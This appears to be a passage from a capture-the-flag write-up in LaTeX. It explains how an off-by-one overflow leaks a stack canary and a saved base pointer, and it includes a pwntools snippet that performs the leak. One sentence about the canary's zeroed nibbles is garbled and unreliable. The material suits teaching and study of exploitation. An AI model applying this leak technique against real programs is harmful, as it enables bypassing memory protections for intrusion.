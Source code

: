     The first step taken in the exploit was identifying the stack canary and saving the base pointer, as it would prove very useful later on.\newline
    The first overflow is perfect for our work, in fact if we look in the decompiled code we can see how the name input produces a bug, an off by one and allows us to overwrite the first byte of the canary stack, a feature of the canary stack is that the first three nibbles and therefore the first and a half bytes are always zero.\newline
    In fact the printf always prints up to the string terminator or null byte, this is the reason why the stack canary being after the name buffer will not be printed because the first byte is always a null byte.\newline
    But what happens if we overwrite the first byte of the canary with off by one?\newline
    exploit code to leak the canary:
    \begin{verbatim} 
    io.sendafter(b">", b"A"*56) 
    io.recvuntil(b'Hello '+ b'A'*56) 
    canary=io.recv(8) # save the canary  
    svb=io.recvuntil(b'Nice' , drop=True) 
    canary=b"\x00"+canary[1:8] 
    real_canary=u64(canary[0:8])
    real_svb=u64(svb.ljust(8,b'\x00'))
    log.info(f"leaked canary: {hex(real_canary)}")
    log.info(f"leaked save base pointer: {hex(real_svb)}")
    \end{verbatim}
    \texttt{sendafter} and \texttt{recvuntil} are all pwntools functions that allow in the case of \texttt{sendafter} to send input bytes (in this case fifty-six A).\newline
    \texttt{recvuntil} instead allows you to receive the program output.\newline
    \begin{figure}[htbp]
        \centering
        \includegraphics[width=1\linewidth]{Images/leaked_canary_terminator.png}
        \caption{Enter Caption}
        \label{fig:leaked_terminator_canary}
    \end{figure}
